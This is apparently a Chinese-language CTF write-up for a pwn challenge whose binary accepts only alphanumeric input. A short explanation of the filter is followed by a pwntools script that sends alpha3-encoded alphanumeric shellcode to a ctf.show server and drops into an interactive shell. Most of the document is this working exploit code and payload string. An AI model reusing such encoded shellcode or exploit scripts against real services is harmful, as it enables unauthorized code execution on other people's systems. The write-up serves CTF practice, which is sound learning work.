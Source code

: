 # 挑战简介
你是一个好人

# 思路
你是一个好人，说明此题会有百般过滤来阻止你的shellcode  

逻辑上判断是否是在 0x61~0x7A(a-z) , 再判断 0x41~0x5A（A-Z） ， 0x30~0x5a(0-Z) 所以 shellcode 是需要由大小写字母及数字构成

所以shellcode是由大小写字母以及数字构成的

所以利用alpha3对shellcode进行处理即可

```
from pwn import *
from LibcSearcher import *
context.log_level = "debug"

context(os='linux', arch='i386', log_level='debug')

p = remote("pwn.challenge.ctf.show",28156)
elf = ELF('D:\edge 下载\pwn')

shellcode="Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t"

payload = shellcode

p.send(payload)

p.interactive()

```
